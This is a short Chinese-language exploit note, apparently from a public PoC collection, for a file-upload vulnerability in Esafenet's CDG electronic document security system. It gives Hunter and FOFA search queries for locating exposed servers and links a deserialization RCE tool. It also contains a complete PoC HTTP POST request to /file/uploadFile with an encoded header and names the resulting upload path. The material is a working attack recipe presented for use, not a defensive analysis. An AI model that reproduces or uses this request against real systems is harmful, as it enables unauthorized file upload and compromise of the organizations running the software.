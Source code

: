## 亿赛通电子文档uploadFile接口文件上传漏洞


## Hunter语法：
```
web.icon=="9fd216c3e694850445607451fe3b3568"
```
## fofa
```
app="亿赛通-电子文档安全管理系统"
```

## 工具
```
https://github.com/0xf4n9x/CDGXStreamDeserRCE
```
将head 中的Content 解密
![image](../../images/365c3394-4f8e-43aa-9fac-d12e069ca53a.png)


## poc
```
POST /file/uploadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 143
Content: MGIFOACOKLJAHOGCPPOBDFLGJFPACJJKLFGFOBDNHAGLEDGALNKAEHDLMEOODCBFDIMEFNGHCMGBPABDLPPCHCLMAELIDDCLOGNPOCGHIEFJHIOEIIPPJBCIFCPDOKIOMKPPDGPHCALHOJNNBLJBHGLMPBFICDGGMMOLGLGMIHOOFLHLBEHNIHOPOEKKIPHCMJAOMGMNPFINKHMPBFOJBJPNLNKILIOCLAEPIKJDNOJHELELCOLLAKKAPFFPFGPMOLGPBDAHIHKEFDIFPDMDKDDKNMOGMLDEMBEAMFOOCECFKCKHJBDDMIENNFFMABEFNKCCIAIJIKGDAOGCDMNCNEGOGBNJIJFBBEBODAPNLOFJMOGCJGMOCHNJALDDDKLPGM
Content-Type: multipart/form-data; boundary=0ac445a70ef9526aeb69efb4569810d6
Accept-Encoding: gzip, deflate, br
Connection: close

--0ac445a70ef9526aeb69efb4569810d6
Content-Disposition: form-data; name="file"; filename="file"

123
--0ac445a70ef9526aeb69efb4569810d6--
```

![image](../../images/96ae7af1-6607-45de-856e-6c248a8791f6.png)

文件上传地址
http://ip:/CDGServer3/3g/X.jsp


